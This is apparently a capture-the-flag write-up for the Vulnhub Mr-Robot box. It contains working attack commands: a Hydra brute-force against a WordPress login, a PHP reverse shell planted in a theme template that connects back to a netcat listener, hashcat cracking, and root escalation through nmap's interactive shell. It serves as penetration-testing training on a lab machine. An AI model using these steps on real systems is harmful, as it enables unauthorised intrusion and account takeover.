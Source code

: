 # This is the write up for the Vulnhub box MR-ROBOT: 1 

Box Ip Address: 10.38.1.112

Attacking Machine Ip: 10.38.1.110
## **Information Gathering**
---
Starting with an Nmap port Scan we see this output:

![](Images/2022-04-28-20-51-11.png)

The two open ports are the HTTP port 80 and the HTTPS port of 443. These two ports being open, we can assume that this is a web server.

Upon navigating to the server address within a web browser we are greeted with this:

![](Images/2022-04-28-20-55-54.png)

After poking around with the listed commands and running into dead-ends we can view the `/robots.txt file` which gives us this: 

![](Images/2022-04-28-21-09-55.png)

It looks like we have the first key! If we insert `key-1-of-3.txt` where `robots.txt` was we are able to view the key: `073403c8a58ald80d943455fb30724b9`

![](Images/2022-04-28-21-17-08.png)


After navigating back to `robots.txt` we can use this command we can pull down the dictionary file.
```
wget 10.38.1.112/fsocity.dic
```

Attempting to `cat` the file we can see there is a ton of scrolling entries. If we instead pipe the command to `wc -l` we see there are 858,160 lines in this file. 

![](Images/2022-04-28-21-30-48.png)

If we use `cat` and pipe the command to `grep -i "robot"` we see that the file repeats itself.

![](Images/2022-04-28-21-41-41.png)


Let's use this command to count the number of unique entries
```
cat fsocity.dic | sort -u | wc -l
```

After doing so we see there are 11,451 unique entries. We will now use this command to save these entries into a new dictionary file
```
cat fsocity.dic | sort -u >> new_fsocity.dic
```

Now lets use `dirb` to see if we can find any more directories in this page
```
dirb http://10.38.1.112 /usr/share/wordlists/dirb/common.txt
```

This is the output of that command

![](Images/2022-04-28-22-06-39.png)

After running into the dead-end that was the `/readme` we can turn our attention to the `/login/`. Which we then see a login screen for WordPress

![](Images/2022-04-28-22-16-59.png)

When we viewed the `fsocity.dic` file earlier, one of the first entries that seemed like it could be a username was `Elliot`  

![](Images/2022-04-28-22-18-37.png)

If we attempt to brute force our way into the `Elliot` username and use the password `password` we see that Elliot is, in fact, the name of a user.

![](Images/2022-04-28-22-20-19.png)

Now that we have a user we can use a `Hydra` command to try and brute force his password. We know that logins use a POST request so our structure looks like this:
```
hydra -vv -l elliot -P /home/kali/Desktop/new_fsocity.dic 10.38.1.112 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' 
```

And after about 5 minutes we have this nice message: 

![](Images/2022-04-28-22-48-28.png)

So now we have `elliot's` password, which is: `ER28-0652`


## **Exploitation**
---
When looking for these flags, the easiest way I can think of is to somehow get into a shell. Knowing the website is run on `.php` we can do a quick google search for `"php reverse shell kali linux location"` we find the location of the reverse shell code at `/usr/share/laudenum/php/php-reverse-shell.php`

we need to nano this code and make soime changes prior to uploading it to wordpress. These are the changes we need to make

![](Images/2022-04-28-23-29-34.png)

ip needs to be set to our kali box `ip` of `10.38.1.110` and the `port` can be set to `443`

Next we need to open a new terminal and start a NetCat listener for port 443
```
nc -lnvp 443
```

Navigating to appearance/editor in the wordpress site and using the `404 template` we can paste our new php script.

![](Images/2022-04-28-23-32-50.png)

Once we save the script we can make a new tab and put the URL as `10.38.1.112/hi` to trigger the netcat listener which gives us our shell access. 

![](Images/2022-04-28-23-34-46.png)

Through a series of directory traversals we now have access to `key-2-of-3.txt` and `password.raw-md5`

![](Images/2022-04-28-23-38-04.png)

If we try to view the key file we get permission denied. This is due to the owner of the file being the user `robot`

if we `cat` the password file we get this md5 hash

![](Images/2022-04-28-23-41-58.png)

We can use the hashcat tool to crack this password hash. To do this, we need to copy the contents of `password.raw-md5` to our kali desktop, delete the `robot:`, and run this command
```
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt
```

After about one minute hashcat will have cracked the password and we see this:

![](Images/2022-04-28-23-58-47.png)

So for the user `robot` the password is `abcdefghijklmnopqrstuvwxyz`

Now from our reverse shell we can `su` to the user `robot` and view the file but doing so yields this error: 

![](Images/2022-04-29-00-08-05.png)

After googling this problem, we can actually spawn a bash shell using python and this command.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Doing so will get us a bash terminal where we then can `su` into the user `robot`

We then can `cat` the key file and see key 2 is `822c73956184f694993bede3eb39f959`

![](Images/2022-04-29-00-15-16.png)

# Escalation

Moving onto the last key we can make an assumption that we must elevate our permiissions to be `root` 

Using this command we can see what version of nmap we are running:
```
nmap --version
```

Oh look, we are running an older version of nmap.

![](Images/2022-04-29-10-35-56.png)

After a quick search online we find out we can use this version of nmap in it's interactive mode to escalate our privileges to root.
```
nmap --interactive
```
Then once inside we can run
```
!/bin/bash
```
We see by doing this we can get the normal bash shell. Let's exit and try a different shell
```
!sh
```
Then
```
whoami
```
It looks like that gave us the root access we need!!

![](Images/2022-04-29-10-41-45.png)

If we navigate to `/root` and look in the directory we see the file for `key-3-of-3.txt`

![](Images/2022-04-29-10-43-20.png)

If we `cat` the file we are rewarded with our third and final key!!!

![](Images/2022-04-29-10-44-17.png)


# Congratulations!!!

#### Thanks so much for coming along on this journey with me